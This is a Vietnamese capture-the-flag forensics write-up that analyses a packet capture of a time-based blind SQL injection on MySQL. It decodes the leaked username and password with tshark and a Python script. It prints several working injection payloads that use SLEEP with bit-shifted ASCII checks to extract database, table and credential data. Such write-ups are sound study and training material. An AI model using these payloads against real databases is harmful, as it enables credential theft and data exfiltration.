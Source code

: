 # exfil

- Đầu tiên, phân tích sơ qua thì ta thấy file capture này đang mô phỏng lại quá trình Time Based Blind SQL Injection lên server thông qua protocol mysql
- Filter "mysql" ta sẽ thấy được hàng loạt các câu lệnh mysql injection được attacker gửi lên server
![1](1.png)

- Xét đoạn mysql sau:
![2](2.png)
```mysql
	SLEEP((SELECT ASCII(substr((SELECT group_concat(database_name) FROM mysql.innodb_table_stats), 1, 1)) >> 7 & 1) * 3)
```
- Xử lý luồng thực thi từ trong ra ngoài thì ta sẽ có:
	- SELECT group_concat(database_name) FROM mysql.innodb_table_stats
group_concat(database_name) lấy tất cả record của Field database_name từ bảng mysql.innodb_table_stats (bảng này chứa tên các bảng được khởi tạo).
	- substr(string,1,1) : lấy kí tự thứ 1 của string,ở đây attacker tăng dần index lên để dò vị trí các kí tự
	vd:  string =  'admin' => substr(string,1,1) = a, substr(string,2,1) = d ... 
	- ASCII (char): chuyển kí tự sang mã ASCII
	- ![ascii](ASCII.png)
	- ">> 7 & 1" đoạn này shift right 7, xong rồi and với 1
	- Nếu kết quả trả về từ substr() là NUL thì sẽ trả về ASCII(NUL) = 0, do đó 0 >> 7 = 0; 0 & 1 = 0
	- Mình lấy 3 gói tin delay khoảng 3 (s), attacker dùng để bruteforce chữ 'a' trong column user:
	- ```mysql
			SLEEP((SELECT ASCII(substr((SELECT user FROM db_m3149.users), 1, 1)) >> 6 & 1) * 3)
			SLEEP((SELECT ASCII(substr((SELECT user FROM db_m3149.users), 1, 1)) >> 5 & 1) * 3)
			SLEEP((SELECT ASCII(substr((SELECT user FROM db_m3149.users), 1, 1)) >> 0 & 1) * 3)
	  ```
	-
		97 >> 6  & 1 == 1 ==> SLEEP(3)
		97 >> 5  & 1 == 1 ==> SLEEP(3)
		97 >> 0  & 1 == 1 ==> SLEEP(3)

- Vậy chỉ cần dựa vào thời gian delay giữa các cặp gói tin request/response attacker có thể dễ dàng bruteforce được database_name.
- Ta tiếp tục xét đoạn mysql sau:
![3](3.png)

	```mysql
		SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f6d33313439), 1, 1)) >> 2 & 1) * 3)
	```
	- Sau khi đã bruteforce được database_name là 0x64625f6d33313439(db_m3149.users), attacker tiếp tục tìm những table do user khởi tạo

- Phân tích những gói tin mysql tiếp theo, ta sẽ thấy attacker đã brute thành công column user và password

```mysql
	SELECT SLEEP((SELECT ASCII(substr((SELECT user FROM db_m3149.users), 1, 1)) >> 6 & 1) * 3)
	SELECT SLEEP((SELECT ASCII(substr((SELECT password FROM db_m3149.users), 3, 1)) >> 5 & 1) * 3)
```

- Với cách tấn công như mình đã phân tích ở trên, attacker có thể lấy toàn bộ user,password từ phía server
- Nếu là người kiên nhẫn thì bạn cũng có thể tìm ra user với password và lấy được flag
- Nhưng ... mình là người chơi hệ code nên thôi code vậy
- OK, sau khi phân tích xong, việc chúng ta cần làm là xử lý dữ liệu
- Ban đầu mình filter mysql contains "db_m3149.users" để lọc ra dữ liệu cần thiết, sau đó export sang json để xử lý
nhưng có 1 vấn đề là sau khi export thì bị duplicate key (json parse sẽ reject những key trùng nhau và chỉ lấy key ở cuối)
![4](4.png)
![5](5.png)

- Mình bị stuck đoạn này khá lâu và tìm đến tshark (mình tạm gọi là phiên bản terminal của Wireshark)

```sh
	tshark -Y "mysql contains db_m3149.users" -r capture.pcap -Tjson --no-duplicate-keys -w result.json
	segment found (oh no !!!!)
	-- TRY AGAIN --
	tshark -Y "mysql contains db_m3149.users" -r capture.pcap -Tjson --no-duplicate-keys > result.json
	(Ờ mây zing, gút chóp em)
```

- Không dài dòng nữa code thôi :v

```python
import json,re

f = open('result.json','r').read()

j = json.loads(f)

user   = []
passwd = []

for i in j:
	if(float(i['_source']['layers']['frame']['frame.time_delta']) > 2):
		temp = i['_source']['layers']['mysql'][1]['mysql.field.name']
		_regextemp = re.findall(', (.*), 1\)\) >>(.*)&',temp) # regex để lấy 2 số attacker dùng để bruteforce
		if re.search('SELECT user',temp):
			user.append(_regextemp) # sau khi append thì sẽ thành mảng 3 chiều, vì sau khi regex sẽ trả về 1 mảng
		else:
			passwd.append(_regextemp)

def bruteForce(arr):
	for k in range(41,126): # Mã ASCII những kí tự hay dùng
		check = True
		for i in arr:
			if k >> i & 1 != 1:
				check = False
				break

		if(check == True):
			return chr(k)

	return 'x' # trả về x nếu ko tồn tại, đoạn này ko cần quan tâm (type = None)

def Decode(msg):
	temp = []
	i = 1
	result = ''
	for arr in msg:
		if(int(arr[0][0]) == i):
			temp.append(int(arr[0][1]))
		else:
			result += bruteForce(temp)
			i += 1
			temp = [] # reset array
			temp.append(int(arr[0][1]))

		if(arr == msg[-1]):
			result += bruteForce(temp)

	return result

print("[+] user :", Decode(user))
print("[+] password :", Decode(passwd))
```

- result :
```sh
[+] user : admin
[+] password : HTB{b1t_sh1ft1ng_3xf1l_1s_c00l}
```